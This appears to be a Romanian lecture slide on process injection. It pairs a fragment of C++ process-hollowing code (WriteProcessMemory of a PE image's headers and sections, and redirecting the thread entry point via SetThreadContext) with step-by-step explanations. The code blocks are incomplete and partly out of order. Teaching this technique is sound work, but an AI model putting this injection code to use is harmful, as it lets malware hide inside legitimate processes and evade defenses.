

{
            TerminateProcess(
                lpPI->hProcess,
                -7
            );
            return -7;
        }
    }

    if (!WriteProcessMemory(
        lpPI->hProcess,
        reinterpret_cast<LPVOID>(
            stCtx.Rdx + sizeof(LPVOID) * 2
            ),
        &lpImageBase,
        sizeof(LPVOID),
        NULL
    ))
    {
        TerminateProcess(
            lpPI->hProcess,
            -8
        );
        return -8;
    }

    stCtx.Rcx = reinterpret_cast<DWORD64>(lpImageBase) +
        lpNTHeader->OptionalHeader.AddressOfEntryPoint;
    if (!SetThreadContext(
        lpPI->hThread,
        &stCtx
    ))
    {
        TerminateProcess(
            lpPI->hProcess,
            -9
        );
        return -9;
    }

 if (!WriteProcessMemory(
        lpPI->hProcess,
        lpImageBase,
        lpImage,
        lpNTHeader->OptionalHeader.SizeOfHeaders,
        NULL
    ))
    {
        TerminateProcess(
            lpPI->hProcess,
            -6
        );
        return -6;
    }

    for (
        SIZE_T iSection = 0;
        iSection < lpNTHeader->FileHeader.NumberOfSections;
        ++iSection
        )
    {
        PIMAGE_SECTION_HEADER stSectionHeader =
            reinterpret_cast<PIMAGE_SECTION_HEADER>(
                reinterpret_cast<DWORD64>(lpImage) +
                lpDOSHeader->e_lfanew +
                sizeof(IMAGE_NT_HEADERS64) +
                sizeof(IMAGE_SECTION_HEADER) * iSection
                );

        if (!WriteProcessMemory(
            lpPI->hProcess,
            reinterpret_cast<LPVOID>(
                reinterpret_cast<DWORD64>(lpImageBase) +
                stSectionHeader->VirtualAddress
                ),
            reinterpret_cast<LPVOID>(
                reinterpret_cast<DWORD64>(lpImage) +
                stSectionHeader->PointerToRawData
                ),
            stSectionHeader->SizeOfRawData,
            NULL
        ))
# Injectare procese (II)

Alocarea și scrierea în memoria procesului:

Alocare - Alocă memorie în procesul țintă corespunzătoare dimensiunii imaginii procesului.

Scriere - Scrie headerul și secțiunile imaginii procesului în memoria alocată.

Modificarea contextului procesului țintă:

Obținerea contextului - Capturează starea registrelor procesului țintă.

Setarea adresei de intrare - Modifică registrul pentru a indica la noua adresă de intrare din imaginea injectată.

Rescrierea și reluarea executării - Actualizează contextul procesului și reia executia thread-ului său principal.